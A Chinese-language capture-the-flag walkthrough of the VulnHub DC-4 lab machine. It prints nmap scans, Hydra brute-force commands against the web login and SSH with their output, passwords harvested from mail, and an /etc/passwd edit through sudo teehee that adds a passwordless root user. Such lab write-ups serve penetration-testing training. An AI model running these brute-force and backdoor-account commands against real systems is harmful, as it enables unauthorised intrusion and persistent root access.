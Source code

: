 # DC: 4

下载地址：https://download.vulnhub.com/dc/DC-4.zip

## 实战演练

发现靶场IP：`192.168.32.161`

![image-20220622114510707](../../.gitbook/assets/image-20220622114510707.png)

扫描对外端口

```
┌──(root💀kali)-[/tmp]
└─# nmap  -sT -sV  -p1-65535 192.168.32.161                                                                                                                                                                                            
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-21 23:45 EDT
Nmap scan report for 192.168.32.161
Host is up (0.00021s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    nginx 1.15.10
MAC Address: 00:0C:29:87:7A:A8 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.43 seconds

```

浏览器访问80端口

![image-20220622114621654](../../.gitbook/assets/image-20220622114621654.png)

扫描WEB目录

![image-20220622120557974](../../.gitbook/assets/image-20220622120557974.png)

![image-20220622120605854](../../.gitbook/assets/image-20220622120605854.png)

使用sqlmap，发现没有sqlmap注入漏洞

![image-20220622120527966](../../.gitbook/assets/image-20220622120527966.png)

使用hydra爆破用户，找到密码`happy`。

```
┌──(root💀kali)-[/tmp]
└─# hydra -l admin -P top1000.txt  192.168.32.161 http-post-form '/login.php:username=^USER^&password=^PASS^:S=command' 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-22 00:15:04
[DATA] max 16 tasks per 1 server, overall 16 tasks, 999 login tries (l:1/p:999), ~63 tries per task
[DATA] attacking http-post-form://192.168.32.161:80/login.php:username=^USER^&password=^PASS^:S=command
[80][http-post-form] host: 192.168.32.161   login: admin   password: happy
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-22 00:15:21

```

登录成功

![image-20220622133428403](../../.gitbook/assets/image-20220622133428403.png)

执行command，抓包

![image-20220622133649234](../../.gitbook/assets/image-20220622133649234.png)

使用反弹shell

![image-20220622133835215](../../.gitbook/assets/image-20220622133835215.png)

找到一个password文件

![image-20220622134221814](../../.gitbook/assets/image-20220622134221814.png)

找到一个脚本

```
www-data@dc-4:/home/jim$ cat test.sh

#!/bin/bash
for i in {1..5}
do
 sleep 1
 echo "Learn bash they said."
 sleep 1
 echo "Bash is good they said."
done
 echo "But I'd rather bash my head against a brick wall."

```

`test.sh`有`suid`属性

![image-20220622134336796](../../.gitbook/assets/image-20220622134336796.png)

访问mbox没有权限

![image-20220622134441195](../../.gitbook/assets/image-20220622134441195.png)

将`old-passwords.bak`下载到kali机器，对`jim`用户进行SSH爆破，找到密码是`jibril04`

```
┌──(root💀kali)-[/tmp]
└─# hydra -l jim -P old-passwords.bak ssh://192.168.32.161                    
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-22 01:46:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 252 login tries (l:1/p:252), ~16 tries per task
[DATA] attacking ssh://192.168.32.161:22/
[STATUS] 177.00 tries/min, 177 tries in 00:01h, 76 to do in 00:01h, 16 active
[22][ssh] host: 192.168.32.161   login: jim   password: jibril04
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-22 01:48:17

```

查看`mbox`文件

```
jim@dc-4:~$ cat mbox 
From root@dc-4 Sat Apr 06 20:20:04 2019
Return-path: <root@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 20:20:04 +1000
Received: from root by dc-4 with local (Exim 4.89)
        (envelope-from <root@dc-4>)
        id 1hCiQe-0000gc-EC
        for jim@dc-4; Sat, 06 Apr 2019 20:20:04 +1000
To: jim@dc-4
Subject: Test
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCiQe-0000gc-EC@dc-4>
From: root <root@dc-4>
Date: Sat, 06 Apr 2019 20:20:04 +1000
Status: RO

This is a test.

```

根据提示，查看邮件信息，找到**charles**密码：`^xHhA&hvim0y`

```
jim@dc-4:~$ mail
Mail version 8.1.2 01/15/2001.  Type ? for help.
"/var/mail/jim": 1 message 1 unread
>U  1 charles@dc-4       Sat Apr 06 21:15   27/715   Holidays
& 1
Message 1:
From charles@dc-4 Sat Apr 06 21:15:46 2019
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bitc
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles

```

成功su用户，查看sudo列表

```
charles@dc-4:~$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee

```

使用`teehee`添加一条root用户记录

```
charles@dc-4:~$ echo "r00t::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
r00t::0:0:::/bin/bash

```

获取flag

![image-20230208134419829](../../.gitbook/assets/image-20230208134419829.png)
